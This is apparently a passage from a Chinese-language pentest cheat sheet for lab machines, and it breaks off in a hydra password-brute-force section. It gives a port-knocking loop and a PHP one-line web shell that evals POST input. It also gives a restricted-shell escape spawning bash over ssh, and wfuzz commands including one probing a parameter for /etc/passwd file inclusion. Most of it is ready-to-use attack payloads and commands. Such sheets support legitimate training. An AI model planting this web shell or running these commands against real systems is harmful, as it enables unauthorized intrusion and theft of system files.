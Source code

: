 ```
for x in 1466 67 1469 1514 1981 1986; do nmap -Pn -p $x 10.10.10.194; done
# or
knock 10.10.10.194 1466 67 1469 1514 1981 1986 -v

```

  
一句话木马php、一句话马  

```
<?php @eval($_POST['pass']);?>

```

  
rbash / shell 逃逸命令  

```
ssh username@IP  &#34;export TERM=xterm;python -c  'import pty;pty.spawn(\&#34;/bin/bash\&#34;)'&#34;

```

## wfuzz模糊测试相关  

```
# 安卓url爆破响应为200的结果（添加UA）
wfuzz -u http://10.10.10.192:8008/NickIzL33t/FUZZ.html -w small_rockyou.txt  -H 'User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS............8.0 main%2F1.0 baiduboxapp/13.40.0.10 (Baidu; P2 15.5) NABar/1.0 themeUA=Theme/default' --sc 200
# 普通url爆破响应为200的结果
wfuzz -u http://10.10.10.192:8008/NickIzL33t/FUZZ.html -w small_rockyou.txt --sc 200
# 筛选出响应长度在100到100000之间的结果
wfuzz -u http://10.10.10.200/test.php?FUZZ=/etc/passwd -w /data/SecLists_Dict/Discovery/Web-Content/small_common.txt
 --ss &#34;^(.{100,100000})$&#34;
# 指定从1开始模糊测试
wfuzz -u http://10.10.10.203/wordpress/?page_id=FUZZ -z range,1-1000 --sc 200

```

## 密码爆破类别  
### 1、hydra爆破  
  
海德拉爆破网页post表单（
```
-f
```

  
 爆破成功一个就停止），
```
^USER^
```
